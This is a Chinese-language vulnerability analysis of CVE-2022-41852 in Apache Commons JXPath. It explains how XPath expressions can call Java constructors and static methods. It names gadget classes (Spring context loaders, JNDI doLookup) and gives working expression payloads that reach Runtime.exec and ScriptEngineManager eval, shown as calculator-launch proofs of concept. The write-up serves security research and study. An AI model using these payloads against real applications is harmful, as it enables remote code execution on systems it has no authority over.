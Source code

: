# 浅析Apache Commons Jxpath命令执行分析(CVE-2022-41852)

## 影响版本

commons-jxpath:commons-jxpath <= 1.3

一直到最新版本，官方也不打算修了

## 利用探索

测试环境：jxpath1.3

JXPath支持标准的XPath函数，开箱即用。它还支持 "标准 "扩展函数，这些函数基本上是通往Java的桥梁，以及完全自定义的扩展函数。

简单从漏洞描述可以看出由于解析xpath表达式的问题造成的漏洞![](img/1.png)

其实这来源官方的一个[feature](https://commons.apache.org/proper/commons-jxpath/users-guide.html)，如图看起来它赋予了我们一种动态执行代码的能力

![](img/2.png)

这时候我们就会想为什么会有这种奇怪的需求，毕竟从平时经验来讲xpath，作为一种路径语言，它的功能是帮助我们对xml进行一些简单的信息检索，然而它叫JXpath而不叫Xpath，因此其实从实现上来讲它不仅实现了xpath查询的一些基础功能，更重要的是它搭建了一个通往java的桥梁，从官方的设计初衷也可以看出，它的设计实现其实更像一款表达式语言

> Primary applications of JXPath are in scripting: JSP and similar template/script based technologies. However, programmers who prefer XML-flavored APIs, should consider JXPath as an alternative to other expression languages as well. JXPath is a must-have tool for those who work with mixtures of Java objects and XML and need to frequently traverse through graphs of those.



## 简单的测试

简单写个测试demo

Test.java

```java
import org.apache.commons.jxpath.JXPathContext;

public class Test {
    public static void main(String[] args) {
        JXPathContext context = JXPathContext.newContext(null);
        context.getValue("com.example.springdemo.calc.calc()");
    }
}
```

Calc.java

```java
package com.example.springdemo;

public class calc {
    public static void calc(){
        try {
            Runtime.getRuntime().exec("open -na Calculator");
        }catch (Exception e ){

        }
    }
}
```

对于如何解析其实很多时候我们并不需要去关注对字符token的解析过程，毕竟我们这也不是绕waf，我们也不需要知道如何去实现一些畸形构造达到一致的功能，而在这里我们更应该关注什么呢？我们应该关注它官网这个feature如何实现的调用，以及调用方法对方法又有什么限制？

在`org.apache.commons.jxpath.PackageFunctions#getFunction`当中

![](img/3.png)

这里可以看出允许的调用一个是构造函数，另一个是静态方法，当然他们都需要是public修饰

再次回到`org.apache.commons.jxpath.ri.compiler.ExtensionFunction#computeValue`当中,

![](img/4.png)

在获得了org.apache.commons.jxpath.Function对应的这个实例后，回去调用具体的invoke的实现

而Function具体的接口实现有两个类

- org.apache.commons.jxpath.functions.ConstructorFunction
- org.apache.commons.jxpath.functions.MethodFunction

如何判断返回的是哪个类？

![](img/5.png)

`ConstructorFunction`的`invoke`就不多说了，实例化构造函数，另一个`MethodFunction#invoke`，反射执行方法，都没什么好说的

那么我们假设就从官方的demo出发，我们能做些什么？

### 对于实例化我们能做什么

比如说对于new这个操作来说，一些常见的如spring当中有两个类构造函数就能加载远程配置可以rce

- org.springframework.context.support.ClassPathXmlApplicationContext
- org.springframework.context.support.FileSystemXmlApplicationContext

### 对于静态方法我们能做什么

jndi当中有静态方法，javax.naming.InitialContext.doLookup

一些常见库比如fastjson出发json反序列化

当然还有jdbc攻击也可以帮助我们撕开一条漏洞的口子

当然肯定还有其他的攻击手法毕竟jre当中有很多类这里只是举一些例子而已，对于学习足够了



### 想要更多？

拿着tabby编译扫一下就行，毕竟在这里我们规则很简单构造函数、静态方法，只是筛选可能会费点时间罢了



## 突破限制

​	对于大多数人来说，其实想到上面几点就已经很不错了，但是考虑的也不够全面。毕竟面向官方feature学习，下个断点，随便点点，也确实差不多了。

​	对我们来说虽然用spirng开发的项目很多，但是我们也不一定能遇到spring的环境，也不一定有jdbc可以打。

​	而对于JXpath来说，虽然设计的像表达式，但它却不像其他表达式引擎那般灵活，支持随意赋值然后调用。也不能多条语句执行，它一次只能执行一条，怎么办呢？事实上如果你仔细看了最后一个demo你会发现有个长这样的

```java
String firstName = (String)context.getValue("getAuthorsFirstName($book)");
//As you can see, the target of the method is specified as the first parameter of the function.
```

从英文来看其实就是$book.getAuthorsFirstName()，就是这么的简单。稍微会点Java的你可能也该想到

如果我们想要执行`Runtime.getRuntime().exec("open -na Calculator")`，按照上面的例子其实就改为了`exec(java.lang.Runtime.getRuntime(),'open -na Calculator')`

又或者我们利用ScriptEngineManager调用js实现rce

`eval(getEngineByName(javax.script.ScriptEngineManager.new(),'js'),'java.lang.Runtime.getRuntime().exec("open -na Calculator")')`

方法也便多了起来，有时候多往下面看看，真的可以节约很多时间，不然就需要仔细看看字符串的解析流程，属实无趣。
